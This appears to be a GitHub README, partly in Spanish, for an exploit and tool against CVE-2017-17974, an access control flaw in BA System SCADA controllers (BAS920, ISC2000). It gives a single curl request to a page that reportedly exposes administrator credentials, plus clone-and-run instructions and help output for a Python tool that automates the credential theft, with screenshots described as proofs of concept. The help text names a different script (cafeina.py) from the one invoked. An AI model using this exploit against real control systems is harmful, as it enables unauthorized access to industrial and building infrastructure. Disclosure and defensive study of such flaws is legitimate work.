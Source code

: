 #  [Tool] BAcK System
## [BA System] “Improper Access Control (Authorization)”


	[*] Exploit Title:       "Improper Access Control (Authorization)” 
	[*] CVE:                 CVE-2017-17974
	[*] Date:                29/12/2017
	[*] Exploit Author:      Fernandez Ezequiel ( @capitan_alfa ) && Bertin Jose ( @bertinjoseb )
	[*] Vendor:              BA System
	[*] devices(tested):     BAS920 & ISC2000

Atacando SCADAS de la firma “BA SYSTEM”: 

![BAS920](screenshot/baIexplorer.png)

Accedemos a la plataforma y como era de esperar nos recibe un "login form"


![BAS920_2](screenshot/get_passwd.png)


### Exploit:

```
	curl http://<host>/isc/get_sid_js.aspx
```

### POCs:

![BAS920_3](screenshot/POC_1.png)
![BAS920_4](screenshot/POC_2.png)

### Adentro:
![BAS920_5](screenshot/INDOOR.png)
![BAS920_6](screenshot/INDOOR_2.png)


***


# TOOL: "BAcK System"

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/baCK_system.git
	usr@pwn:~$ cd baCK_system

## help

	usr@pwn:~/$ python baCK_system.py --help

	python cafeina.py --help
	usage: cafeina.py [-h] [-v] --host HOST [--port PORT]

	[+] obtaining the credential information for the Supervisor/Administrator
	account

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port

	[+] Demo: python cafeina.py --host 192.168.1.101 -p 81

***

## Usage:

![BAS920_7](screenshot/tool_passwd.png)

#### Las update !!!
![BAS920_8](screenshot/poc_tool_1.png)

